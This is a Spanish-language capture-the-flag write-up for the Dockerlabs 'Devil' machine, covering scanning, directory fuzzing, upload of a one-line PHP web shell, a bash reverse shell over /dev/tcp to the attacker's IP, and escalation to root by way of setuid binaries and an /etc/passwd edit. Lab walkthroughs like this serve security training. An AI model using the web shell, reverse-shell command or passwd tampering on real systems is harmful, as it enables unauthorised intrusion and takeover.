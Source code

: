 # devil

Máquina "Devil" de [Dockerlabs](https://dockerlabs.es)

Autor: [kaikoperez](https://github.com/kiket25)

Dificultad: Medio

![devil](./images/devil/img/deviil.png)

## RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Wed Sep 18 15:25:35 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-09-18 15:25:36 -03 for 15s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-generator: Drupal 10 (https://www.drupal.org)
|_http-title: Hackstry
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep 18 15:25:51 2024 -- 1 IP address (1 host up) scanned in 15.43 seconds
```

Solo tenemos el puerto 80 abierto y `está corriendo apache httpd`, por lo que continuaremos desde el navegador.

**Puerto 80:**

![80](./images/devil/img/80.png)

Si nos fijamos al final, se nos nombra wordpress y en el propio codigo fuente hay cosas de wordpress, el problema es que si intentamos entrar a cualquier cosa relacionada con wordpress, nos va a redirigir a la misma página. Como sabemos, si intentamos entrar a alguna de eso nos redirige, pero... ¿que pasa si entramos a una carpeta en la que se indexe el contenido? como por ejemplo "wp-content/". Si vamos desde el navegador veremos una página en blanco, pero en wordpress siempre hay una carpeta uploads ahí, por lo que si nos metemos veremos una carpeta extraña llamada "esteestudirectorio", a la cual si entramos veremos una nota en morse que dice lo siguiente:

```css
MEJOR PRUEBA HA HACER FUZING PERO NO EN ESTE DIRECTORIO PRUEBA CON UN DIRECTORIO ATRAS.
```

Por lo que ahora recurriremos a `dirb` para hacer lo que nos dice la nota (fuzzing en wp-content):

```css
dirb http://172.17.0.2/wp-content/ -w
```

luego de que termine, veremos esto:

```css
---- Entering directory: http://172.17.0.2/wp-content/plugins/backdoor/ ----
+ http://172.17.0.2/wp-content/plugins/backdoor/index.php (CODE:200|SIZE:2135)                                                 
==> DIRECTORY: http://172.17.0.2/wp-content/plugins/backdoor/uploads/ 
```

Como vemos hay una carpeta "backdoor" en "./plugins/backdoor/" y tiene un index.php, por lo que si vemos desde el navegador, veremos lo siguiente:

![backdoor](./images/devil/img/backdoor.png)

## INTRUSION

Viendo que podemos subir archivos, y que hay una carpeta "uploads" en el mismo directorio, podemos subir un php malicioso que nos permita ejecutar comandos, por ejemplo yo uso este:

```php
<?php
system($_GET['command']);
?>
```

Este lo que va a hacer es que cuando lo subamos y entremos en el, podamos ejecutar comandos en la url poniendo esto:

```css
http://172.17.0.2/<snip>/backdoor/uploads/shell.php?command=<comando>
```

por lo que una vez subido vamos a el archivo.

Estando ahi escucharemos con netcat por el puerto que queramos `nc -nlvp <puerto>`, luego ponemos esto en la url:

```css
<snip>?command=bash -c 'bash -i >%26 /dev/tcp/<ip>/<puerto> 0>%261'
```

y ya estaremos dentro.

## ESCALADA DE PRIVILEGIOS

#### www-data

Hacemos un tratamiento de la tty y continuamos.

Ahora si vamos a `/home`, veremos que tenemos permisos de lectura en la home de andy. Ahora si ejecutamos `ls -Rla` en ese directorio, veremos lo siguiente:

```css
www-data@ad0c48cd34f2:/home$ ls -Rla andy/
andy/:
total 24
drwxr-xr-x 1 andy andy  154 Sep 11 23:00 .
drwxr-xr-x 1 root root   30 Sep 11 22:10 ..
-rwxr-xr-x 1 andy andy  491 Sep 18 20:25 .bash_history
-rwxr-xr-x 1 andy andy  220 Mar 31 10:41 .bash_logout
-rwxr-xr-x 1 andy andy 3771 Mar 31 10:41 .bashrc
-rwxr-xr-x 1 root root   13 Sep 11 23:00 .pista.txt
-rwxr-xr-x 1 andy andy  807 Mar 31 10:41 .profile
drwxr-xr-x 1 andy andy   38 Sep 11 22:33 .secret
-rwxr-xr-x 1 andy andy  867 Sep 11 22:31 .viminfo
drwxr-xr-x 1 root root   24 Sep 11 22:56 aquilatienes

andy/.secret:
total 20
drwxr-xr-x 1 andy andy    38 Sep 11 22:33 .
drwxr-xr-x 1 andy andy   154 Sep 11 23:00 ..
-rwxr-xr-x 1 andy andy   512 Sep 11 22:31 escalate.c
-rwxr-xr-x 1 andy andy 16176 Sep 11 22:33 ftpserver

andy/aquilatienes:
total 4
drwxr-xr-x 1 root root  24 Sep 11 22:56 .
drwxr-xr-x 1 andy andy 154 Sep 11 23:00 ..
-rwxr-xr-x 1 root root  73 Sep 11 22:55 password.txt
www-data@ad0c48cd34f2:/home$
```

Hay cosas interesantes:

`.pista.txt`

`/aquilatienes/password.txt`

`ftpserver`

`escalate.c`

Si leemos la pista y el password, veremos que nos dice que está en rot8000 (no pongo el password porque tiene un formato que no puedo copiar), por lo que si lo pasamos a texto, obtendremos esto:

```css
andy:laloca1
```

Por lo que ahora escalamos con `su andy` y su contraseña.

#### Andy

Si vamos a `.secret/` y leemos el "escalate.c", veremos que se fija nuestro uid y el de lucas y luego si coincide nos genera un bash, y si ejecutamos el otro script podremos a escalar a lucas:

```css
andy@ad0c48cd34f2:~/.secret$ ./ftpserver 
UID actual: 1001
EUID actual: 1001
lucas@ad0c48cd34f2:~/.secret$ 
```

#### Lucas

Siendo lucas, veremos que en su home hay una carpeta llamada ".game" y un archivo que tiene permisos SUID (porque está en rojo), y además el archivo .c que se usó para crearlo, el cual si leemos, nos genera una bash como root al poner el 7, por lo que lo ejecutamos y al poner un 7 escalaremos a root, pero el grupo sigue siendo andy, por lo que editamos con nano el `/etc/passwd` y borramos la "x" de root, y ahora seremos root totalmente:

![root](./images/devil/img/root.png)

Gracias por leer...
